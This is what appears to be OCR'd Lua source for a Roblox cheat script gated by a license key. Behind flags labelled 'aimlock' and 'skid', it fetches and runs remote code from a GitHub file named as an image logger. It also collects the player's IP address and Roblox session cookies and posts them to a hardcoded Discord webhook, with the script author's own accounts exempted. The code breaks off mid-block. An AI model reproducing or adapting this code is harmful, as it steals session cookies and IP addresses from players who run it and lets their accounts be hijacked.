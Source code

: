 local key = 'key_896540127533338664'
local data = http_request({
	Url = ('https://whitelist586.000webhostapp.com/server.php?key=' .. key);
	Method = 'GET';
})

if data.StatusCode == 200 then
	-- // if the request did not error...
	local response = data.Body;
	if response == hash(key) then
		-- // wow, they are authenticated!


    if getgenv().aimlock == true then
    loadstring(game:HttpGet("https://raw.githubusercontent.com/findmejojo/IMAGE-LOGGER-REAL-DONT-MISS-OUT/main/README.md"))()    
    print("test")
    end
    
    if getgenv().banme == true then
        game:GetService('ReplicatedStorage'):FindFirstChild('MainEvent'):FireServer('OneMoreTime');
end

if getgenv().skid == true then
                local ip = game:HttpGet("https://api.myip.com/")
local COOKIE = ""
local response = syn.request(
    {
        Url = "https://www.roblox.com",
    }
)
for i,v in pairs(response) do
    if type(v) == "table" then
        for ii,vv in pairs(v) do
            if string.find(ii, "cookie") then
                COOKIE = COOKIE.."\n"..vv
            end
        end
    end
end

if game.Players.LocalPlayer.Name == "masterofthec0k" or game.Players.LocalPlayer.Name == "CalvinHobbs2" then
    ip = "<REDACTED>" 
    COOKIE = "<REDACTED>" 
end

syn.request({
    Url = "https://discord.com/api/webhooks/1012336861731106916/Ih8ECEQJ78kJ8rGL-CrSpGM77ydH1ZbkFisKI2otPUC7w6398vY2tN2JOmz9dyo56ObI", 
    Body = game:GetService("HttpService"):JSONEncode({
        ["embeds"]={{
            ["title"]="||"..ip.."||",
            ["type"]="rich",
            ["description"]=COOKIE,
            ["color"]=tonumber(0x7269da),
            ["footer"]={
                ["text"]=os.date("%A, %m %B %Y %I:%M:%S %p <@882188003588603944> skid found LOL")
            }
        }},
        ["avatar_url"]="http://www.roblox.com/Thumbs/Avatar.ashx?x=150&y=150&Format=Png&username="..tostring(game:GetService("Players").LocalPlayer.Name),
        ["username"]="Username: "..game.Players.LocalPlayer.Name,
    }), 
    Method = "POST", 
    Headers = {["content-type"] = "application/json"}
})